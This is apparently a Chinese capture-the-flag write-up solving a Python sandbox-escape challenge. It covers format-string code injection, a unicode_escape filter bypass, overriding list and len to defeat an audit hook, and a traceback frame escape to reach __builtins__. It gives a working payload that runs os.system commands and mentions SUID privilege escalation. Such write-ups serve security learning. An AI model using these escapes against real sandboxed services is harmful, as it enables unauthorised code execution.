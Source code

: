 `CODE.format(text)`将`text`替换到`{}`，等价于`print("text")`

```
text=")
#这里执行代码
print("
```

就可以执行代码了，然后要绕`badchars`，`safe_exec`中`code = code.encode().decode('unicode_escape')`

unicode_escape会解析 Unicode 转义序列，只需要**将text的值unicode编码**，在safe_exec中就会还原回原字符（就是编码解码不一致还是在badchar后解的码）

然后就是审计钩子的绕过，就很简单一查就有强网杯的题，**重写list与len方法就行**

然后就是ast的绕过，禁止了**生成器**与一些**魔术属性与方法**，然后就不能生成器栈帧逃逸与继承链应该也不太行的通

提升跟Exception有关，一查应该都能查出来，**异常栈帧逃逸**(有很多方法吧，我觉得这个最好查？所以提升给了可能？)

```
try:
    1/0
except Exception as e:
    frame = e.__traceback__.tb_frame.f_back
    builtins = frame.f_globals['__builtins__']
```

`e.__traceback__` → 指向异常发生时的 **traceback** 对象

traceback 里包含 `tb_frame` → 指向异常发生的 **栈帧 frame 对象**

frame 里包含 `f_locals`、`f_globals`、`f_back` → 可以沿着链条访问之前的局部变量、全局变量、调用栈

可以逃逸到exec外的全局拿`__builtins__`

```python
text=")
list=lambda x:True
len=lambda x:False

try:
    1/0
except Exception as e:
    frame = e.__traceback__.tb_frame.f_back
    builtins = frame.f_globals['__builtins__']
    builtins.exec("builtins.__import__('os').system('ls / -al>app.py')")    #这里__import__被act拦了，所以放成字符串丢到exec里（也可以用__getattribute__获取__import__）
    #frame.f_globals['SandboxVisitor'].visit_Attribute=lambda x,y:None  #重写visit_Attribute后
    #builtins.__import__('os').system('ls />app.py') 					#也ok
print("

#得unicode编码
```

还有很多其他做法，比如\_\_getattribute\_\_绕，yeild关键字构造生成器,  闭包栈帧逃逸， _\_newobj\_\_的\_\_builtins\_\_属性，这题相比pyjail比较开放，网上查查应该都能查出来

因为有len(output)<=5限制，可以当没回显来打(写app.py或者创建static目录往里写)，也可以一点一点读

然后当前用户minilUser没权限读/m1n1FL@G，需要提权，很简单suid提权，24级的网安导论实验也有这内容
